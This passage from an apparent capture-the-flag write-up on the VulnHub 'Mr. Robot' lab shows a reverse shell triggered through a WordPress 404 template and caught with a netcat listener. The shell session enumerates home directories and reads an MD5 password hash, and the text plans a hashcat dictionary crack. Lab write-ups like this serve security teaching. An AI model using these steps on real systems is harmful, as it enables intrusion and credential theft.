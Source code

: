 ![Wordpress - 404][Wordpress - 404]

```
$ curl http://192.168.2.243/404.php

$ nc -v -n -l -p 7500

listening on [any] 7500 ...
connect to [192.168.2.112] from (UNKNOWN) [192.168.2.243] 50652
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
19:30:11 up  4:26,  0 users,  load average: 0.00, 0.02, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off

$ pwd
/

$ cd /home

$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot

$ cd /home/robot

$ ls -la

total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied

$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We got access to the machine and navigating to `/home/robot` revealed 2 files; `key-2-of-3.txt` and `password.md5-raw`. 
Attempting to read `key-2-of-3.txt` doesn't work as we need to login as `robot`. To do that we must crack `robot`'s 
password, which is stored as a `MD5` hash in `password.raw-md5`.

### Logging in as Robot
We know our hash is `MD5` so using `hashcat` with `rockyou.txt` from `/usr/share/wordlists/rockyou.txt` we can 
commence a dictionary attack to crack it. Do note that `rockyou.txt` was copied from `/usr/share/wordlists/rockyou.txt`.


[pentestmonkey]: http://pentestmonkey.net/
[Mr. Robot]: /images/posts/2019-07-04-vulnhub-mr_robot/Mr.%20Robot.png
[robots.txt]: /images/posts/2019-07-04-vulnhub-mr_robot/Robots.png
[Wordpress - Panel]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Panel.png
[Wordpress - Users]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Users.png
[PHP Reverse Shell]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[Wordpress - Denied]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Denied.png
[Wordpress - 404]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20404%20Template.png
[LinEnum]: https://github.com/rebootuser/LinEnum